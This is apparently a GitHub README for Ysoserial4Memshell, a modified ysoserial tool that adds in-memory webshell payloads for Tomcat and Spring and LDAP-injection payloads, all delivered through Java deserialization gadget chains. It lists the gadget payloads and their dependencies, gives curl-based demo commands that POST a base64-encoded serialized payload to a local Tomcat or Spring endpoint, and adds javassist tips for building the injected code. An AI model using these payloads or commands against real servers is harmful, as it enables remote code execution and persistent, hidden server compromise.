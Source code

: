 # Ysoserial4Memshell
研究 Ysoserial 運作原理，並將 Payload 新增內存馬及LDAP注入功能。
內存馬現已完成 Tomcat 及 Spring 兩種版本。

* for Memshell
  * `java -jar Mem-ysoserial-master.jar CommonsCollections2Mem tomcat`
  * `java -jar Mem-ysoserial-master.jar CommonsCollections2Mem spring`

```
Payload                 Authors                                Dependencies                                                                             
CommonsBeanutils1Mem    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                    
CommonsCollections2Mem  @frohoff                               commons-collections4:4.0                                                                 
CommonsCollections3Mem  @frohoff                               commons-collections:3.1                                                                  
CommonsCollections4Mem  @frohoff                               commons-collections4:4.0                                                                 
JSON1Mem                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
Jdk7u21Mem              @frohoff            
```

* for Ldap Injection
  * `java -jar Mem-ysoserial-master.jar CommonsBeanutils1Ldap "ldap://127.0.0.1:1389/test"`
  
```
Payload                 Authors                                Dependencies                                                                             
CommonsBeanutils1Ldap   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                    
CommonsCollections1Ldap @frohoff                               commons-collections:3.1                                                                  
CommonsCollections2Ldap @frohoff                               commons-collections4:4.0                                                                 
CommonsCollections3Ldap @frohoff                               commons-collections:3.1                                                                  
CommonsCollections4Ldap @frohoff                               commons-collections4:4.0                                                                 
CommonsCollections5Ldap @matthias_kaiser, @jasinner            commons-collections:3.1                                                                  
CommonsCollections6Ldap @matthias_kaiser                       commons-collections:3.1                                                                  
CommonsCollections7Ldap @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                      
```

# Demo
* Tomcat
```
docker build -t tomcatdeserial . --no-cache
docker run -p8080:8080 tomcatdeserial

java -jar Mem-ysoserial-master.jar CommonsCollections2Mem tomcat > 1.ser
cat 1.ser | base64 | sed ":a;N;s/\n//g;ta" > 1.b64
echo data=`cat 1.b64` | curl http://127.0.0.1:8080/inject.jsp -d @-
```

* Spring:
```
java -jar Mem-ysoserial-master.jar CommonsCollections2Mem spring > 1.ser
cat 1.ser | base64 | sed ":a;N;s/\n//g;ta" > 1.b64
echo data=`cat 1.b64` | curl http://127.0.0.1:8080/hello -d @-
```

# Analysis
以 CommonsCollections 為例，下面說明幾種利用方式：
* 運用 Runtime.getRuntime().exec("") 觸發
  * 用來注入系統指令
* 運用 javassist 觸發
  * 可以注入 java 程式碼，Ysoserial 用 Gadgets.java 封裝
  * 可以更靈活操作 Payload
  * javassist 需修改的項目
```
1. 將所有的 Class 用完整路徑表示
	Field => java.lang.reflect.Field
2. javassist 不支援 generics，需註解所有<xxx>
	java.util.ArrayList<Object> => java.util.ArrayList/*<Object>*/
3. javassist 不支援可變參數呼叫
	ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
		=> ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
	method.invoke(classLoader, bytes, 0, bytes.length);
		=> method.invoke(classLoader, new Object[]{bytes, 0, bytes.length});
4. javassist 中 int 並非 Object，需要用 Integer 替代
	0 => new Integer(0)
5. 若有 Exception，在 catch 中需要使用 throw 拋出例外
	catch(Exception ex){throw ex;}
```
